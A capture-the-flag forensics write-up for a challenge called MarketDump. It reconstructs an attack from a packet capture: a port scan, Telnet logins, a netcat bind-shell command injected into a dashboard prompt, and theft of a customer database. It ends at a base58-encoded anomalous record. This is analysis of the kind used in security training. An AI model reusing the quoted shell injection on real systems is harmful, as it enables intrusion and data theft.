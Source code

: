 # MarketDump

> **We have got informed that a hacker managed to get into our internal network**
> **after pivoiting through the web platform that runs in public internet. He**
> **managed to bypass our small product stocks logging platform and then he got our**
> **costumer database file. We believe that only one of our costumers was targeted.**
> **Can you find out who the customer was?**

## The dump

### Protocol breakdown

- ARP:
  - 16 ARP packets
- DATA:
  - 61 packets
  - reverse shell over TCP
- DNS:
  - 6 packets over UDP & 5 over TCP
  - domains: acid
- HTTP:
  - 36 packets
  - pages / requests:
    - / => 
    - /sdk => 
    - /about =>
    - **/costumers.sql => most of the traffic volume**
- ICMP:
  - 14 packets
- IPP:
  - 1 malformed packed
- TCP:
  - 2828 packets in total
  - 2000 packets or more
- MySQL:
  - 2 packets
  - standard greeting
- NTP:
  - 4 packets
- PGSQL:
  - 2 packets
  - error
- SSH:
  - 1 packet
- TELNET:
  - 46 packets
  - login attempts
  - dashboard with stock reports
  - exploit

### Endpoints

- 10.0.2.3 is the client server
- 10.0.2.15 is the attacker
- 129.70.132.36 is an NTP time server

## The attack scenario

- the attacker connected on the ethernet network
- SYN scan of roughly a 1000 ports (1010 RST packets)
- login attempts via TELNET
- exploit the TELNET dashboard callback: `Type exit to exit the program: nc.traditional -lvp 9999 -e /bin/bash`
- launch a reverse shell to the port 9999
- copy the customers database over /tmp
- start a python server on port 9998, from the /tmp directory
- GET the data over HTTP
- rm the database from the server

## The stolen data

Scrolling down, we notice one record doesn't follow the format:

```
American Express,378467610293297
American Express,NVCijF7n6peM7a7yLYPZrPgHmWUHi97LCAzXxSEUraKme
American Express,341025508735219
```

Here I thought "this is clearly base64", and it turns out it's base58!

Turns out base58 is designed for readability, and removes:
- ambiguous characters like O, 0, I and l
- special characters altogether
